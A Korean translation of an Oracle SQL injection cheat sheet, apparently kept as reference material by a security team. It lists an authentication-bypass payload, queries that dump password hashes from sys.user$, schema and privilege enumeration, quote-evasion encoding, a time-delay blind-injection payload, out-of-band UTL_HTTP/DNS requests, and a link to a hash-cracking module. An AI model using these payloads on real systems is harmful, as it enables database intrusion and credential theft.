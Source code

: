 # Oracle Injection Cheet Sheet
##### 원작자: 문광일 PM
##### 링크: [KOROMOON][koromoonlink]
[koromoonlink]: https://koromoon.blogspot.com/2018/10/oracle-injection-cheet-sheet.html "Go koromoon"
##### 작성자: 강하늘 사원
##### 작성일자: 2024년 4월 18일

![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/164521627/da75f236-8e45-4cfa-bf15-229c0ff9932d)


아래 링크를 번역함. </br>
https://websec.ca/kb/sql_injection

## ( 1 ) 기본 데이터베이스

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 230.6pt;" valign="top" width="307"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SYSTEM<o:p></o:p></span></span></div>
</td>
  <td style="border-left: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-left-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 230.6pt;" valign="top" width="307"><div class="MsoNoSpacing">
<span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">모든 버전에서 사용 가능<span lang="EN-US"><o:p></o:p></span></span></div>
</td>
 </tr>
<tr>
  <td style="border-top: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 230.6pt;" valign="top" width="307"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SYSAUX<o:p></o:p></span></span></div>
</td>
  <td style="border-bottom: solid windowtext 1.0pt; border-left: none; border-right: solid windowtext 1.0pt; border-top: none; mso-border-alt: solid windowtext .5pt; mso-border-left-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 230.6pt;" valign="top" width="307"><div class="MsoNoSpacing">
<span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">모든 버전에서 사용 가능<span lang="EN-US"><o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>


## ( 2 ) 코멘트 아웃 쿼리(Comment Out Query)

여기서 코멘트 아웃(Comment Out)이란 디버그에서 자주 사용되는 방법으로 코멘트를 지시하는 문을 삽입하여 프로그램이나 명령어 집합의 일부를 일시적으로 사용하지 않는 것을 말함.

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 230.6pt;" valign="top" width="307"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">--<o:p></o:p></span></span></div>
</td>
  <td style="border-left: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-left-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 230.6pt;" valign="top" width="307"><div class="MsoNoSpacing">
<span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;"><span lang="EN-US">SQL </span>주석<span lang="EN-US"><o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>

예 :
SELECT * FROM Users WHERE username = '' OR 1=1 --' AND password = '';


## ( 3 ) 버전 테스팅

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT banner FROM v$version WHERE
  banner LIKE 'Oracle%';<o:p></o:p></span></span></div>
</td>
 </tr>
<tr>
  <td style="border-top: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT banner FROM v$version WHERE
  banner LIKE 'TNS%';<o:p></o:p></span></span></div>
</td>
 </tr>
<tr>
  <td style="border-top: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT version FROM v$instance;<o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>

노트 :
오라클은 모든 SELECT 문에는 테이블이 있어야 함.
DUAL 테이블은 테스트에 사용할 수 있는 더미 테이블임.


## ( 4 ) 데이터베이스 자격 증명

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 230.6pt;" valign="top" width="307"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT username FROM all_users;<o:p></o:p></span></span></div>
</td>
  <td style="border-left: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-left-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 230.6pt;" valign="top" width="307"><div class="MsoNoSpacing">
<span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">모든 버전에서 사용 가능<span lang="EN-US"><o:p></o:p></span></span></div>
</td>
 </tr>
<tr>
  <td style="border-top: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 230.6pt;" valign="top" width="307"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT name, password from sys.user$;<o:p></o:p></span></span></div>
</td>
  <td style="border-bottom: solid windowtext 1.0pt; border-left: none; border-right: solid windowtext 1.0pt; border-top: none; mso-border-alt: solid windowtext .5pt; mso-border-left-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 230.6pt;" valign="top" width="307"><div class="MsoNoSpacing">
<span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;"><span lang="EN-US">&lt;= 10g </span>에서 사용<span lang="EN-US"><o:p></o:p></span></span></div>
</td>
 </tr>
<tr>
  <td style="border-top: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 230.6pt;" valign="top" width="307"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT name, spare4 from sys.user$;<o:p></o:p></span></span></div>
</td>
  <td style="border-bottom: solid windowtext 1.0pt; border-left: none; border-right: solid windowtext 1.0pt; border-top: none; mso-border-alt: solid windowtext .5pt; mso-border-left-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 230.6pt;" valign="top" width="307"><div class="MsoNoSpacing">
<span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;"><span lang="EN-US">&lt;= 11g </span>에서 사용<span lang="EN-US"><o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>



## ( 5 ) 데이터베이스 이름

① 현재 데이터베이스

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT name FROM v$database;<o:p></o:p></span></span></div>
</td>
 </tr>
<tr>
  <td style="border-top: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT instance_name FROM v$instance<o:p></o:p></span></span></div>
</td>
 </tr>
<tr>
  <td style="border-top: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT global_name FROM global_name<o:p></o:p></span></span></div>
</td>
 </tr>
<tr>
  <td style="border-top: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT SYS.DATABASE_NAME FROM DUAL<o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>

② 사용자 데이터베이스

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT DISTINCT owner FROM all_tables;<o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>


## ( 6 ) 서버 호스트 이름

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT host_name FROM v$instance;
  (Privileged)<o:p></o:p></span></span></div>
</td>
 </tr>
<tr>
  <td style="border-top: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT UTL_INADDR.get_host_name FROM
  dual;<o:p></o:p></span></span></div>
</td>
 </tr>
<tr>
  <td style="border-top: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT
  UTL_INADDR.get_host_name('10.0.0.1') FROM dual;<o:p></o:p></span></span></div>
</td>
 </tr>
<tr>
  <td style="border-top: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT UTL_INADDR.get_host_address
  FROM dual;<o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>


## ( 7 ) 테이블과 컬럼

① 테이블 검색

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT table_name FROM all_tables;<o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>

② 컬럼 검색

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT column_name FROM
  all_tab_columns;<o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>

③ 컬럼 이름에서 테이블 찾기

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT column_name FROM
  all_tab_columns WHERE table_name = 'Users';<o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>

④ 테이블 이름에서 컬럼 찾기

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT table_name FROM all_tab_tables
  WHERE column_name = 'password';<o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>

⑤ 한 번에 여러 테이블/컬럼 검색

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT RTRIM(XMLAGG(XMLELEMENT(e,
  table_name || ',')).EXTRACT('//text()').EXTRACT('//text()') ,',') FROM
  all_tables;<o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>

## ( 8 ) 인용 기호 피하기

다른 RDBMS 와 달링 오라클은 테이블/컬럼 이름을 인코딩할 수 있음.

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184; width: 615px;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 230.6pt;" valign="top" width="307"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT 0x09120911091 FROM dual;<o:p></o:p></span></span></div>
</td>
  <td style="border-left: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-left-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 230.6pt;" valign="top" width="307"><div class="MsoNoSpacing">
<span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;"><span lang="EN-US">Hex </span>인코딩<span lang="EN-US"><o:p></o:p></span></span></div>
</td>
 </tr>
<tr>
  <td style="border-top: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 230.6pt;" valign="top" width="307"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT CHR(32)||CHR(92)||CHR(93) FROM
  dual;<o:p></o:p></span></span></div>
</td>
  <td style="border-bottom: solid windowtext 1.0pt; border-left: none; border-right: solid windowtext 1.0pt; border-top: none; mso-border-alt: solid windowtext .5pt; mso-border-left-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 230.6pt;" valign="top" width="307"><div class="MsoNoSpacing">
<span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;"><span lang="EN-US">CHAR() </span>함수<span lang="EN-US"><o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>

## ( 9 ) 문자열 연결

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT 'a'||'d'||'mi'||'n' FROM dual;<o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>

## ( 10 ) 타이밍

① 시간 지연

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT UTL_INADDR.get_host_address('non-existant-domain.com')
  FROM dual;<o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>

② 막대한 시간 지연(Heavy Time Delays)

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNormal" style="line-height: normal; margin-bottom: .0001pt; margin-bottom: 0cm;">
<span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;"><span lang="EN-US">AND
  (SELECT COUNT(*) FROM all_users t1, all_users t2, all_users t3, all_users t4,
  all_users t5) &gt; 0 AND 300 &gt; ASCII(SUBSTR((SELECT username FROM
  all_users WHERE rownum = 1),1,1));</span><span lang="EN-US"><o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>

## ( 11 ) 특권

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT privilege FROM session_privs;<o:p></o:p></span></span></div>
</td>
 </tr>
<tr>
  <td style="border-top: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT grantee, granted_role FROM
  dba_role_privs; (Privileged)<o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>

## ( 12 ) 대역 외 채널링

① DNS Requests

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT
  UTL_HTTP.REQUEST('http://localhost') FROM dual;<o:p></o:p></span></span></div>
</td>
 </tr>
<tr>
  <td style="border-top: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT UTL_INADDR.get_host_address('localhost.com')
  FROM dual;<o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>


## ( 13 ) 패스워드 크랙(Password Cracking)

JTR 용 Metasploit 모듈은 아래 링크에서 찾을 수 있음.
http://www.metasploit.com/modules/auxiliary/analyze/jtr_oracle_fast
